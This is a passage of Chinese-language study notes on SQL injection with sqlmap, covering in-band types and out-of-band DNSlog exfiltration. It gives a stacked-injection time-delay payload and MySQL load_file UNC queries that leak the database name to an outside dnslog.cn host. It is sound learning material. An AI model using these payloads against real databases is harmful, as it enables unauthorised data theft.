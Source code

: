 in-band通常是服务器直接返回数据；

#### Error-based sqli

![image-20230210171300989](.\sqlmap使用笔记.assets\image-20230210171300989.png)

#### Union-based sqli

![image-20230210171313737](.\sqlmap使用笔记.assets\image-20230210171313737.png)

#### Time-based Blind sqli

![image-20230210171323011](.\sqlmap使用笔记.assets\image-20230210171323011.png)

#### Boolean-based Blind sqli

![image-20230210171340401](.\sqlmap使用笔记.assets\image-20230210171340401.png)

#### Stacked injections

```SQL
admin')) AS DuLp WHERE 2609=2609;SELECT BENCHMARK(5000000,MD5(0x75626f4d))-- qVVn
```



### out-band sqli,(OOB)

out-band通常是服务器不会告诉你sql执行的结果，但是他会告诉另一个台服务器，这是需要我们从另一台服务器那回显的结果。

http://dnslog.cn/

dnslog的搭建可以参考：https://github.com/BugScanTeam/DNSLog



mysql使用load_file()函数来读取文件本地或远程，使用的协议是unc。

```sql
select load_file("\\\\uqusq5.dnslog.cn\\a.txt");  # 使用unc协议读取远程主机上a.txt文件，首先就是会进行dns的一个解析，然后对应的dnslog服务器上就会有对应的记录。
# 利用dnslog的特点，这里将数据库的库名直接写成dnslog进行注入
select load_file(concat("\\\\",database(),".uqusq5.dnslog.cn\\a.txt"));  # load_file()函数虽然不可以向外网发起请求，但是可以做域名的解析
```
